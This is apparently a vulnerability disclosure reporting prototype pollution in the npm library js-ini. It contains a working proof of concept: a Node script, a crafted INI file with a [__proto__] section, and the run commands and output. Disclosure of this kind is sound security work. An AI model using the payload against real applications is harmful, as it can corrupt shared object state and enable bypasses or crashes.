 # Description

`js-ini` is vulnerable to `Prototype Pollution`.

# Proof of Concept

1. Create the following PoC and INI files:

```
// poc.js
var fs = require('fs')
var ini = require('js-ini')
console.log("Before : " + {}.polluted);
var parsed = ini.parse(fs.readFileSync('./payload.ini', 'utf-8'))
console.log("After : " + {}.polluted);

//payload.ini
[__proto__]
polluted = "Yes! Its Polluted"
```


2. Execute the following commands in terminal:

```
npm i js-ini # Install affected module
node poc.js #  Run the PoC
```

3. Check the Output:
```
Before : undefined
After : "Yes! Its Polluted"
```
